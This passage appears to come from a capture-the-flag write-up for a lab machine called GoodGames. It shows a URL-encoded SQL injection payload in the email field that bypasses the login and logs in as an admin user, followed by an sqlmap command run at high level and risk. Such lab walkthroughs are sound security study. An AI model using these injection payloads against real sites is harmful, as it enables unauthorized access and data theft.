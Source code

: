 Lets try `SQL injection` payloads on the `signup` and `login` page. Changing the `email` field with a `SQL injection` payload.   

<br/> 
<img src="/img/GoodGames_screenshots/Pasted image 20241116130255.png" alt="1" style="width:700px; height:auto;">
<br/>


```sql
test%40test.com'OR+1=1+--+-+
```

We get a response  `Welcome adminxtromera` seems that the payload worked. Giving the rest to `sqlmap`. 

```bash
sqlmap -r req --level 3 --risk 3 --batch
```

<br/> 
<img src="/img/GoodGames_screenshots/Pasted image 20241116130531.png" alt="1" style="width:700px; height:auto;">
<br/>
